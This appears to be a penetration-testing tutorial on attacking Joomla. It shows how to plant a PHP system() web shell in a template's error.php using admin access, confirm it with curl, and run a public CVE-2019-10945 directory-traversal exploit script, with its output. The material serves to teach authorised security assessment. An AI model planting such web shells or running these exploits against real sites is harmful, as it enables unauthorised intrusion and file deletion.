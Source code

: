 During the Joomla enumeration phase and the general research hunting for company data, we may come across leaked credentials that we can use for our purposes. We can also use brute forcing. With admin credentials we can add a snippet of PHP code to gain RCE. We can do this by customizing a template:
![[joomla_admin.webp]]

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu:
![[joomla_templates.webp]]

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page:
![[joomla_customise.webp]]

Finally, we can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows:
```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

![[joomla_edited.webp]]

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`:
```shell-session
$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Leveraging Known Vulnerabilities

At the time of writing, there have been [426](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html) Joomla-related vulnerabilities that received CVEs. However, just because a vulnerability was disclosed and received a CVE does not mean that it is exploitable or a working public PoC exploit is available. Like with WordPress, critical vulnerabilities (such as those remote code execution) that affect Joomla core are rare. Searching a site such as `exploit-db` shows over 1,400 entries for Joomla, with the vast majority being for Joomla extensions.

It's possible to run into Joomla outdated version with a public vulnerability.

For example Joomla version `3.9.4` is vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945), which can be use to access or delete files. It's only useful if the admin login portal is not accessible from the outside since, armed with admin creds, we can gain remote code execution, as we saw above:
```shell-session
$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

